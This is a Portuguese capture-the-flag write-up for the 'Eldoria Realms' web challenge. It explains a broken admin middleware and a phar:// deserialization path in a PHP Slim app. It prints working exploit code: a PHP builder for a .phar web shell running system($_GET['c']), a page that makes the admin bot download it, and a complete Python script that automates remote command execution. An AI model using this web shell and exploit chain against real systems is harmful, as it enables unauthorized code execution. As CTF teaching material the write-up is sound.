

# Eldoria Realms

> A development instance of a panel related to the Eldoria simulation was found. Try to infiltrate it to reveal Malakar's secrets.

**Difficulty:** Medium  
**Source Code:** Provided  
**Techniques used:** Broken Access Control and Phar file upload

Beleza, tive alguns problemas com esse desafio. Acho que principalmente porque a primeira vez que tentei este challenge, foi logo após ter falhado drasticamente no desafio [cyber attack](../cyber_attack/writeup-pt.md) na Sexta-feira à noite.

Mas na segunda-feira, depois de finalmente resolver o [cyber attack](../cyber_attack/writeup-pt.md), recuperei minha esperança e voltei pra esse aqui. E olha, foi um bom desafio, um pouco complexo, mas bem simples depois que você descobre o caminho certo.

A aplicação inteira foi escrita em PHP usando o framework Slim, e tem um bot em Python que acessa uma URL já logado como admin sempre que o endpoint `/api/claimQuest` é chamado (isso tá em `challenge/src/routes.php`).

De início, não encontrei nenhuma vulnerabilidade óbvia. Talvez um possível `stored XSS`, mas eu não encontrei nenhuma forma de entregar o `XSS` para o bot. O código estava limpo e parecia relativamente seguro. Mas estamos falando de um CTF, né? Então com certeza tinha uma vulnerabilidade, provavelmente mais de uma, já que a dificuldade é média.

Comecei revisando todos os plugins e componentes listados no `composer.json` e `requirements.txt`, na esperança de encontrar algo. Nada. Depois fui checar configurações do `nginx` e `php.ini`. Gastei bastante tempo tentando explorar o `php-fpm`.

Depois de ficar uma cota andando em círculos, resolvi reler com mais atenção este trecho em `challenge/src/routes.php`:
```php
// ------------------------
// Static Page Routes
// ------------------------

function render($filePath) {
    if (!file_exists($filePath)) {
        return "Error: File not found.";
    }
    $phpCode = file_get_contents($filePath);
    ob_start();
    eval("?>" . $phpCode);
    return ob_get_clean();
}

// ------------------------
// All Routers call the render function.
// ------------------------
$app->get('/', function (Request $request, Response $response, $args) {
    $html = render($GLOBALS['settings']['templatesPath'] . '/login.php');
    $response->getBody()->write($html);
    return $response;
});
```

E aí finalmente achei alguma coisa. A função `file_exists()` aceita o wrapper `phar://`. Então tudo que eu precisava fazer era forçar o bot a baixar um `.phar` malicioso no servidor. Depois, era só chamar o `/` e ganhar um reverse shell.

Perfeito! Mas... como?

Precisamos manipular o valor de `$GLOBALS['settings']['templatesPath']`, que só pode ser alterado por um admin, como mostra esse trecho de `challenge/src/routes.php`:
```php
// POST /api/admin/appSettings
$app->post('/api/admin/appSettings', function (Request $request, Response $response, $args) {
	$data = json_decode($request->getBody()->getContents(), true);
	if (empty($data) || !is_array($data)) {
		$result = ['status' => 'error', 'message' => 'No settings provided'];
	} else {
		$pdo = $this->get('db');
		$stmt = $pdo->prepare("INSERT INTO app_settings (key, value) VALUES (?, ?) ON CONFLICT(key) DO UPDATE SET value = excluded.value");
		foreach ($data as $key => $value) {
			$stmt->execute([$key, $value]);
		}
		if (isset($data['template_path'])) {
			$GLOBALS['settings']['templatesPath'] = $data['template_path'];
		}
		$result = ['status' => 'success', 'message' => 'Settings updated'];
	}
	$response->getBody()->write(json_encode($result));
	return $response->withHeader('Content-Type', 'application/json');
})->add($adminApiKeyMiddleware);
```

Isso me fez voltar à ideia do `stored XSS`. No começo, descartei essa possibilidade, achando que não daria certo, já que o admin não teria acesso aos mesmos dados do usuário que criou o payload.

Mas tudo indica que o `stored XSS` é o caminho, pois precisamos alterar uma configuração que apenas o admin consegue alterar. Ou talvez eu tenha deixado passar alguma coisa.

> O suspeito `stored XSS` está em `challenge/templates/dashboard.php`:
```javascript
  const cleanStatus = DOMPurify.sanitize(user.status || 'Ready for adventure!', {
	USE_PROFILES: { html: true },
	ALLOWED_TAGS: ['a', 'b', 'i', 'em', 'strong', 'span', 'br'],
	FORBID_TAGS: ['svg', 'math'],
	FORBID_CONTENTS: ['']
  });
```


Até que eu reli o código-fonte pela milésima vez… e percebi que realmente deixa algo passar.  
Dá uma olhada você mesmo: `challenge/src/routes.php`
```php
$adminApiKeyMiddleware = function (Request $request, $handler) use ($app) {
	if (!isset($_SESSION['user'])) {
		$apiKey = $request->getHeaderLine('X-API-Key');
		if ($apiKey) {
			$pdo = $app->getContainer()->get('db');
			$stmt = $pdo->prepare("SELECT * FROM users WHERE api_key = ?");
			$stmt->execute([$apiKey]);
			$user = $stmt->fetch(PDO::FETCH_ASSOC);
			if ($user && $user['is_admin'] === 1) {
				$_SESSION['user'] = [
					'id'              => $user['id'],
					'username'        => $user['username'],
					'is_admin'        => $user['is_admin'],
					'api_key'         => $user['api_key'],
					'level'           => 1,
					'rank'            => 'NOVICE',
					'magicPower'      => 50,
					'questsCompleted' => 0,
					'artifacts'       => ["Ancient Scroll of Wisdom", "Dragon's Heart Shard"]
				];
			}
		}
	}
	return $handler->handle($request);
};
```

Esse middleware… não restringe nada! Ele sempre retorna `handle($request)`, mesmo que você não seja admin. Ou seja: a checagem é inútil. Dá pra acessar os endpoints de admin simplesmente ignorando a sessão e enviando um cabeçalho vazio.


Primeiro precisamos criar o arquivo `.phar`:
```php
<?php
$pharFile = 'poc.phar';
@unlink($pharFile);
$p = new Phar($pharFile);
$p->startBuffering();
$p->addFromString('login.php', '<?php echo "Exploit running <br />"; system($_GET["c"]); ?>');
$p->setStub('<?php __HALT_COMPILER(); ?>');
$p->stopBuffering();
```

O motivo de injetar um `login.php` é que a função `render()` vai usar o caminho com `phar://.../login.php`, e retornará o conteúdo `<?php ... ?>`.  
Pense no arquivo `.phar` como um `.zip`, basicamente estamos dizendo para as funções `file_exists` e `file_get_contents` que dentro desse arquivo compactado existe um `login.php` com o nosso código malicioso.

Depois, precisamos hospedar um `index.html` que forçará o bot a baixar o nosso `.phar`:
```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8" />
  <title>FileSaver Async Script Demo</title>
</head>
<body>
  <h1>FileSaver Async Script Demo</h1>

  <script>
    window.addEventListener("load", function() {
      var url = '/phar';
      var callback = function(byteArray) {
        console.log('Callback called; byteArray length is:', byteArray.length);
      };

      var script = document.createElement('script');
      script.type = 'text/javascript';
      
      script.src = '//cdn.jsdelivr.net/g/filesaver.js';
      script.onload = function() {
        console.log((new Date().toString()) + ' : FileSaver Script is ready!');

        var fileNameOfFileSaver = '__PHAR_NAME__';
        var xhr = new XMLHttpRequest();
        xhr.open('GET', url, true);
        xhr.responseType = 'arraybuffer';

        xhr.onload = function() {
          var arrayBuffer = xhr.response;
          var byteArray = new Uint8Array(arrayBuffer);

          console.log((new Date().toString()) + ' : byteArray length > 30M, actually ' + byteArray.length + ' bytes. Saving locally...');
            const blob = new Blob([byteArray], {
              type: 'application/octet-stream'
            });
            saveAs(blob, fileNameOfFileSaver);

            byteArray = (new TextEncoder()).encode(
              'ExecuteAsyncScript Successfully, File Saved to |' + fileNameOfFileSaver + '| (' + byteArray.length + ' bytes)'
            );

          callback(byteArray);
        };

        xhr.send();
      };

      document.head.appendChild(script);
    });
  </script>
</body>
</html>
```
>Créditos ao `Cong Yang`, da [resposta no StackOverflow](https://stackoverflow.com/a/78749761). Eu só removi a verificação de tamanho do original.

Agora envie essa página para o bot via `/api/claimQuest`.  Depois que o `.phar` for baixado, use o endpoint `/api/admin/appSettings` para atualizar o `template_path` com o wrapper `phar://` e acione o reverse shell chamando `/?c=whoami`.

Aqui o exploit completo, o script em Pyhon irá iniciar um Flask server e uma instancia do ngrok e irá lidar com todo o processo de download do `.phar` e quando estiver tudo pronto irá acionar o reverse shell:
```python
import subprocess
import requests
import time
import sys
import argparse
import os
import threading

from flask import Flask, send_file, Response

app = Flask(__name__)

PORT = 5000

TARGET_URL = ""
PHAR_FILE = "./poc.phar"
CMD = ""

NGROK_PROCESS = None
NGROK_PUBLIC_URL = None

PHAR_DOWNLOADED = False

@app.route(f'/phar')
def serve_phar():
    print('[+] Bot requested the PHAR file.')
    
    global PHAR_DOWNLOADED
    PHAR_DOWNLOADED= True

    return send_file(PHAR_FILE, mimetype='application/octet-stream')

@app.route('/')
def serve_index():
    print('[+] Bot accessed the landing page.')
    with open('index.html', 'r') as f:
        html_template =  f.read()

    phar_name = os.path.basename(PHAR_FILE)
    html_template = html_template.replace('__PHAR_NAME__', phar_name)

    return Response(html_template, mimetype='text/html')

def start_ngrok(port):
    global NGROK_PROCESS, NGROK_PUBLIC_URL
    NGROK_PROCESS = subprocess.Popen(['ngrok', 'http', str(port)], stdout=subprocess.DEVNULL)
    print("[*] Starting ngrok...")

    time.sleep(2)
    try:
        tunnels = requests.get("http://127.0.0.1:4040/api/tunnels").json()['tunnels']
        NGROK_PUBLIC_URL = tunnels[0]['public_url']
        print(f"[*] Ngrok tunnel started at: {NGROK_PUBLIC_URL}")
    except Exception as e:
        print("[!] Failed to retrieve ngrok URL:", e)
        sys.exit(1)

def validate_args():
    global TARGET_URL, PHAR_FILE, CMD

    parser = argparse.ArgumentParser()
    parser.add_argument('--target', help='Url challenge', default="http://localhost:1337")
    parser.add_argument('--phar', default="./poc.phar", help='Phar Location')
    parser.add_argument('--cmd', default="cat /flag*txt", help='Command')

    args = parser.parse_args()
    PHAR_FILE = args.phar
    TARGET_URL = args.target
    CMD = args.cmd

def update_settings():
    print('[*] Sending request to update template_path (phar exploit injection).')

    phar_name = os.path.basename(PHAR_FILE)
    data = {
        "template_path":"phar:///var/www/Downloads/" + phar_name
    }
    response = requests.post(TARGET_URL + "/api/admin/appSettings", json=data)
    print(f'[+] Server responded: {response.status_code} - {response.text[:50]}')

def get_flag():
    print(f'[*] Sending command: {CMD}')

    query = {
        "c": CMD
    }
    response = requests.get(url=TARGET_URL, params=query)
    
    if response.status_code == 200 and 'Exploit' in response.text:
        print('[+] Exploit executed successfully. Server response:')
        print(response.text)
        return True
    else:
        print('[!] Exploit not triggered or failed.')
        return False

def delivery_exploit():
    request_to_download()
    update_settings()
    time.sleep(2)
    get_flag()

def request_to_download():
    while True:
        print('[*] Sending quest URL to bot to trigger PHAR download...')
        data = {
            "questId":"q1",
            "questUrl":NGROK_PUBLIC_URL,
            "companions":0
        }
        response = requests.post(TARGET_URL + "/api/claimQuest", json=data)
        print(f'[+] Response: {response.status_code} - {response.text[:50]}')

        time.sleep(15)
        if PHAR_DOWNLOADED:
            print('[+] PHAR file was downloaded by the bot.')
            break

def wait_to_execute(func, delay, *args, **kwargs):
    def wrapper():
        time.sleep(delay)
        func(*args, **kwargs)

    thread = threading.Thread(target=wrapper)
    thread.start()
    return thread

if __name__ == '__main__':
    validate_args()
    
    already_exploited = get_flag()
    if already_exploited:
        print('[!] Looks like the server is already exploited.')
        exit()

    try:
        start_ngrok(PORT)
        
        wait_to_execute(delivery_exploit, 10)
        print('[*] Flask server running. Waiting for the bot...')
        app.run(host='0.0.0.0', port=PORT)
    except Exception:
        print('[*] Shutting down ngrok...')
        if NGROK_PROCESS:
            NGROK_PROCESS.terminate()
```

Só rodar o script, passando o `--target` o path do `.phar` e o comando que deseja executa.

E tá ai a flag:
